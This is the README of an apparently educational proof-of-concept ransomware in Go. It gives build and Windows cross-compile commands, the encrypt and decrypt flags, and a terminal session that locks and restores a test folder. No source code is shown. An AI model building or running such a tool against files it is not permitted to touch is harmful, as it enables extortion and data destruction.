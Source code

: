 # goransom

---

<p align="center">
  <img alt="goransom" src="https://github.com/andpalmier/goransom/blob/master/thief_gopher.jpg?raw=true" />
  <p align="center">
    <a href="https://github.com/andpalmier/goransom/blob/master/LICENSE"><img alt="Software License" src="https://img.shields.io/badge/license-GPL3-brightgreen.svg?style=flat-square"></a>
    <a href="https://goreportcard.com/report/github.com/andpalmier/goransom"><img alt="Go Report Card" src="https://goreportcard.com/badge/github.com/andpalmier/goransom?style=flat-square"></a>
    <a href="https://twitter.com/intent/follow?screen_name=andpalmier"><img src="https://img.shields.io/twitter/follow/andpalmier?style=social&logo=twitter" alt="follow on Twitter"></a>
  </p>
</p>


This is a proof of concept for a simple ransomware written in Go. The purpose of this project is purely educative: I wrote `goransom` to get familiar with the language, this also means that the code is poorly written and organized.

**DO NOT USE THIS ON SYSTEMS WHERE YOU DON'T HAVE THE PERMISSION OF THE OWNER**

## Usage

After downloading the repository, navigate into the directory and build the project:

```
$ go build goransom.go
```

This will create an executable called `goransom`. You can then run the executable with the following flags:
- `-target`, to specify a folder or a file to encrypt/decrypt. If it's a directory, all the files contained in the given folder will be encrypted/decrypted.
- `-secret`, to specify the secret which is used to derive the key for the encryption/decryption.
- `-decrypt`, to be specified if we want to decrypt a file or a folder.

If you are building it for Windows on Linux, use:

```
$ GOOS=windows GOARCH=386 go build -o goransom.exe goransom.go
```

But be careful, Windows defender does not like goransom:

![](windows_def.png)


### Example

```
$ tree
.
├── goransom
└── testfolder
    └── testfile

$ cat testfolder/testfile
THIS IS A SUPER IMPORTANT FILE, PLEASE DON'T TAKE IT AWAY FROM ME

$ ./goransom -secret supersecret -target testfolder
Operating on testfolder
Operating on testfolder/testfile

$ tree
.
├── goransom
└── testfolder
    └── testfile.locked

$ cat testfolder/testfile.locked
�C4�w��i�G⛘]+�~O(�@f1
                     �<
                       �0k><�ZlEV&yj��;)�[1m%

$ ./goransom -secret supersecret -target testfolder -decrypt
Operating on testfolder
Operating on testfolder/testfile.locked

$ tree
.
├── goransom
└── testfolder
    └── testfile

$ cat testfolder/testfile
THIS IS A SUPER IMPORTANT FILE, PLEASE DON'T TAKE IT AWAY FROM ME
```

